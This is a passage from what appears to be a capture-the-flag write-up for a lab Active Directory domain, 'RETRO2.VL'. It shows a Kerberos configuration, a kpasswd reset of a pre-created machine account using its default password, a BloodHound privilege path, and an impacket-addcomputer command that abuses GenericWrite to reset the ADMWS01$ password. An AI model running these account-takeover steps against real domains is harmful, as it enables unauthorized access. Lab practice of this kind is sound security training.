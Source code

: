 ```bash
[libdefaults]
        default_realm = RETRO2.VL
        dns_lookup_realm = false
        ticket_lifetime = 24h
        renew_lifetime = 7d
        rdns = false
        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true
[realms]
        RETRO2.VL = {
                kdc = BLN01.RETRO2.VL
                admin_server = BLN01.RETRO2.VL          }
```


Then run the following command

```bash
$ kpasswd <machine-name>

# Enter the password as machine name but in lower case like password = fs02
```

<img src="https://i.imgur.com/zjE6Bb6.png">

We can see that we successfully able to update the password of **FS02$** account.

From Bloodhound, We can see that we are a member of Domain Computer Group and Domain Computer Group have **GenericWrite** Permission on **ADMWS01** machine account and **ADMWS01** have **AddSelf** permission on **Serveries Group** and Members of **Services** group are also a member of **RDP group**. So first we reset the password of **ADMWS01** machine account by abusing the **genericWrite** permission.

<img src="https://i.imgur.com/DbTGOS1.png">

### Abusing GenericWrite Permission

We can Reset the password of **ADMWS01$** machine account by abusing the **GenericWrite Permission**. We will use tool called **addcomputer.py** from impacket toolkit. You can learn more about it on Hadess blogs [here](https://hadess.io/pwning-the-domain-dacl-abuse/#:~:text=GenericAll%2FGenericWrite%20on%20Computer,-If%20we%20have&text=since%20we%20can%20add%20a,we%20can%20perform%20RBCD%20attack.&text=attacker%20with%20this%20permission%20can,potentially%20taking%20over%20the%20machine) (Reference 2)

```bash
$ /bin/impacket-addcomputer -computer-name 'ADMWS01$' -computer-pass 'SomePassword' -no-add 'retro2.vl/FS02$:test'
```

Here:

- **--no-add** is not to create new user, just change it's password
